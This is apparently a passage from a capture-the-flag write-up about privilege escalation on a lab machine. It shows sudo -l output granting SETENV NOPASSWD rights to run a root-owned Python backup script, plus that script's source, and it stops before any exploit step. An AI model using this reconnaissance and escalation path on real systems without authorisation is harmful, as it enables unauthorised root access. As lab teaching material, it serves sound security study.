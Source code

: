 > **Privilege Escalation with Internal Logic & PYTHONPATH Phase**
> 

```powershell
system-adm@vulnnet-dotpy:/tmp/pip-jf81agq4-build$ : sudo -l
Matching Defaults entries for system-adm on vulnnet-dotpy:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User system-adm may run the following commands on vulnnet-dotpy:
    (ALL) SETENV: NOPASSWD: /usr/bin/python3 /opt/backup.py
    
system-adm@vulnnet-dotpy:/tmp/pip-jf81agq4-build$ ls -lsa /opt
total 12
4 drwxr-xr-x  2 root root 4096 Dec 21  2020 .
4 drwxr-xr-x 23 root root 4096 Dec 20  2020 ..
4 -rwxrwxr--  1 root root 2125 Dec 21  2020 backup.py

system-adm@vulnnet-dotpy:/tmp/pip-jf81agq4-build$ cat /opt/backup.py

from datetime import datetime
from pathlib import Path
import zipfile

OBJECT_TO_BACKUP = '/home/manage'  # The file or directory to backup
BACKUP_DIRECTORY = '/var/backups'  # The location to store the backups in
MAX_BACKUP_AMOUNT = 300  # The maximum amount of backups to have in BACKUP_DIRECTORY

object_to_backup_path = Path(OBJECT_TO_BACKUP)
backup_directory_path = Path(BACKUP_DIRECTORY)
assert object_to_backup_path.exists()  # Validate the object we are about to backup exists before we continue

# Validate the backup directory exists and create if required
backup_directory_path.mkdir(parents=True, exist_ok=True)

# Get the amount of past backup zips in the backup directory already
existing_backups = [
    x for x in backup_directory_path.iterdir()
    if x.is_file() and x.suffix == '.zip' and x.name.startswith('backup-')
]

# Enforce max backups and delete oldest if there will be too many after the new backup
oldest_to_newest_backup_by_name = list(sorted(existing_backups, key=lambda f: f.name))
while len(oldest_to_newest_backup_by_name) >= MAX_BACKUP_AMOUNT:  # >= because we will have another soon
    backup_to_delete = oldest_to_newest_backup_by_name.pop(0)
    backup_to_delete.unlink()

# Create zip file (for both file and folder options)
backup_file_name = f'backup-{datetime.now().strftime("%Y%m%d%H%M%S")}-{object_to_backup_path.name}.zip'
zip_file = zipfile.ZipFile(str(backup_directory_path / backup_file_name), mode='w')
if object_to_backup_path.is_file():
    # If the object to write is a file, write the file
    zip_file.write(
        object_to_backup_path.absolute(),
        arcname=object_to_backup_path.name,
        compress_type=zipfile.ZIP_DEFLATED
    )
elif object_to_backup_path.is_dir():
    # If the object to write is a directory, write all the files
    for file in object_to_backup_path.glob('**/*'):
        if file.is_file():
```
